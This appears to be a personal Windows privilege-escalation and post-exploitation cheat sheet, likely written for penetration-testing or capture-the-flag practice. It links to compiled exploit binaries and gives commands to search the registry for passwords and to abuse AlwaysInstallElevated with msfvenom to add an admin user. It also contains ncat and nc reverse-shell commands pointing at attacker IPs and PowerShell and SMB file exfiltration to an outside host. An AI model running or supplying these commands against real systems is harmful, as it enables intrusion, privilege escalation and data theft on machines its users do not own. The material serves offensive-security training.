 # Windows Tips

# Compiled Exploits

Choose your potato [here](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

- [Sweet Potato](https://github.com/uknowsec/SweetPotato/blob/master/SweetPotato-Webshell-new/bin/Release/SweetPotato.exe)
- https://github.com/r3motecontrol/Ghostpack-CompiledBinaries - tools
    - https://github.com/expl0itabl3/Toolies - More compiled tools
    - https://github.com/cepxeo/redteambins.git- Compiled CVEs
- [CVE-2018-8120](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120) - Windows server 2008
- SeManageVolumePrivilege https://github.com/CsEnox/SeManageVolumeExploit/releases

In addition, if you view the README in this github repo, you can see the privilege escalation paths from a wide variety of privileges.

[https://github.com/gtworek/Priv2Admin.git](https://github.com/gtworek/Priv2Admin.git)

For a comprehensive guide on manual enumeration, look here: [https://juggernaut-sec.com/manual-enumeration/](https://juggernaut-sec.com/manual-enumeration/)

# Basics

### Rename/move files

```abap
move .\TFTP.exe .\TFTP.exe.bak
```

### Make a file

```abap
fsutil file createnew filename filesize
```

### List hidden Files

```bash
dir /a C:\
```

# Enumerations

## Get Architecture of machine

```abap
echo %PROCESSOR_ARCHITECTURE%
systeminfo | findstr /I type:
wmic OS get OSArchitecture
reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v PROCESSOR_ARCHITECTURE
wmic computersystem get systemtype
```

### Get Hotfixes

```bash
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

## List Tasks

```abap
tasklist /v
wmic process
powershell get-process
Get-CimInstance -ClassName Win32_Process | Sort Name | Select Name, CommandLine | Format-List
```

### List services

```bash
cmd.exe /c sc queryex state=all type=service

Get-Service | findstr -i "manual"

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name

gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "manual"} | select PathName,DisplayName,Name
```

### Search for Passwords in Registry

```abap
reg query HKLM /f pass /t REG_SZ /s
```

### List Drives

```nasm
wmic logicaldisk get name
wmic logicaldisk # gives you all the info
Get-PSDrive | where {$_.Provider -like "Microsoft.PowerShell.Core\FileSystem"}| ft Name,Root #use powershell to list drives
```

### Check AlwaysInstallElevated Privilege

If either of these are `0x1`, you have the privilege. It might not show up in `whoami /priv`.

```jsx
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Exploit this by creating a `*.msi` file

```jsx
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi #Using the msiexec the uac wont be prompted
```

### Mounting an SMB Share as a Drive

You can use these 2 methods to map an smbshare as a drive in windows.

```nasm
CMD-Wind> \\10.10.14.14\path\to\exe
CMD-Wind> net use z: \\10.10.14.14\test /user:user pass #For SMB using credentials

WindPS-1> New-PSDrive -Name "new_disk" -PSProvider "FileSystem" -Root "\\10.10.14.9\kali" #optionally append "-Credential $cred" with a PS-Credential
WindPS-2> cd new_disk:

# authenticating to an SMB server before using it without having to mount it as a drive
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net use \\10.10.14.6\share /u:df df
The command completed successfully.
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> copy 20191018035324_BloodHound.zip \\10.10.14.6\share\
```

To get a reverse shell this way,

```bash
#linux machine
smbserver.py SMB . -comment share -ts -debug -smb2support -username user -password 'pass'

# windows client
cmd.exe /c net use x: \\192.168.1.1\SMB /user:user pass & x:\ncat.exe 192.168.1.1 135 -e cmd.exe
```

### Find Non-Default Programs in C:\Program Files

Here is an example of a windows privesc that I found by investigating PaperStream.

*(All the files listed below are basically default besides H2 i think)* 

```abap

    Directory: C:\Program Files (x86)

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        4/27/2020   8:59 PM                Common Files                                                          
d-----        4/27/2020   9:01 PM                fiScanner                                                             
d-----        4/27/2020   8:59 PM                H2  #not default                                                                  
d-----        4/24/2020   9:50 AM                Internet Explorer                                                     
d-----        3/18/2019   9:52 PM                Microsoft.NET                                                         
d-----        4/27/2020   9:01 PM                PaperStream IP  #not default                                                      
d-----        3/18/2019  11:20 PM                Windows Defender                                                      
d-----        3/18/2019   9:52 PM                Windows Mail                                                          
d-----        4/24/2020   9:50 AM                Windows Media Player                                                  
d-----        3/18/2019  11:23 PM                Windows Multimedia Platform                                           
d-----        3/18/2019  10:02 PM                Windows NT                                                            
d-----        3/18/2019  11:23 PM                Windows Photo Viewer                                                  
d-----        3/18/2019  11:23 PM                Windows Portable Devices                                              
d-----        3/18/2019   9:52 PM                WindowsPowerShell
```

![Untitled](Windows%20Tips%202538ffc0176f4fbaa8e586b5ac7bcd9b/Untitled.png)

# File Uploads

Can upload files with Powershell via an HTTP Post request with `.uploadFile`

```abap
powershell (New-Object
System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

### Reverse shell as a different user using Runas

```bash
runas /env /profile /user:Administrator “C:\windows\temp\nc.exe -e cmd.exe 192.168.49.249 21”
```

# List/find files

Recursively list files

```abap
tree /f
dir /a-D /S /B
```

Find a file by filename

```abap
dir "Spokes.exe" /s
Get-Childitem –Path C:\ -Include local.txt -Recurse -ErrorAction SilentlyContinue #powershell command to find "local.txt"
```

# Cross-compile

C# file to `.exe`.

```abap
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32 # links to a library

# there are other mingw32 options for different programming languages and architectures
$ apt-cache search mingw
[...]
g++-mingw-w64 - GNU C++ compiler for MinGW-w64
gcc-mingw-w64 - GNU C compiler for MinGW-w64
mingw-w64 - Development environment targeting 32- and 64-bit Windows
[...]
```

For 64-bit use:   **x86_64-w64-mingw32-g++**

For 32-bit use:   **i686-w64-mingw32-g++**

# Miscellaneous

### Possibly useful commands

You can execute an executable via powershell with the `start` command.

```jsx
powershell.exe /c start shell.exe
```

## Enable RDP

This allows you to RDP onto a host as a user even if you weren’t able to before. You will need a certain amount of permissions to do this. UACBypass might help.

![Untitled](Windows%20Tips%202538ffc0176f4fbaa8e586b5ac7bcd9b/Untitled%201.png)

[Specific Exploits (CVEs)](Windows%20Tips%202538ffc0176f4fbaa8e586b5ac7bcd9b/Specific%20Exploits%20(CVEs)%2022813384e9234d7d85d4bdb0f5b9aa84.md)

[UAC Bypass](Windows%20Tips%202538ffc0176f4fbaa8e586b5ac7bcd9b/UAC%20Bypass%20eb0ad323265b40e3b76a92b77bd308cd.md)